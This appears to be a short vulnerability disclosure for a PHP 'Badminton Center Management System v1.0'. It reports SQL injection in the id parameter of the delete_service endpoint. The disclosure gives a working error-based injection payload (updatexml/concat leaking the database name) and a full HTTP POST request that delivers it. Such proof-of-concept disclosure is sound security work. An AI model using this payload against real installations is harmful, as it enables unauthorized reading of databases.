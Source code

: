 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Vulnerability File: /bcms/classes/Master.php?f=delete_service

Vulnerability location: /bcms/classes/Master.php?f=delete_service, id

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /bcms/classes/Master.php?f=delete_service HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/bcms/admin/?page=services
Content-Length: 65
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/170615031-bd7e3c51-8542-4d4a-96f9-8f2ab302f1c9.png)

